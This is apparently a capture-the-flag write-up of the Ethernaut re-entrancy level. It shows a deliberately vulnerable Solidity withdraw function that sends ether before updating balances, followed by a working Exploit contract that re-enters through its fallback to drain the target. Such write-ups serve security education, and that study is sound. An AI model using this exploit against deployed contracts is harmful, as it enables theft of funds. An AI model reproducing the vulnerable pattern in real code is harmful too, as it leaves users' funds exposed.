 # Ethernaut 10: Re-entrency

This is a very suprising Weakness - always update first balances before making sending ether or calling an interface, if you dont, your conatract might be exposed in a reentrency attack.

## The Task Intro

The goal of this level is for you to hack the basic token contract below.

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can beanother contract, not just a regular address. Hence, it can execute code in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942)

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## The Solution

The withdraw function sends ether before updating the state, not using the check-effect-interaction pattern - making it vulnerable to re-entrance. First I donate something to my own address. Then I withdraw the same amount again, but continue to withdraw in my fallback method (could be receive method as well). See the contract below:

```apache
interface IReentrance {
  function withdraw(uint _amount) external;
  function donate(address _to) external payable;
}

contract Exploit {
    IReentrance public re;
    uint256 private constant ETHER_FRACTION = 100_000_000_000_000;

    constructor (IReentrance _re) public payable{
        re=_re;
    }
    fallback()external payable{
        if(address(re).balance > 0){
          re.withdraw(ETHER_FRACTION);
        }
    }

    function attack() external payable{
        re.donate{value: ETHER_FRACTION}(address(this));
        re.withdraw(ETHER_FRACTION);
    }

    function reclaim () external payable{
      (bool result,) = msg.sender.call{value: address(this).balance}("");
      if(result){
          result;
      }
    }
}
```

With this I gain a very large amount of tokens.
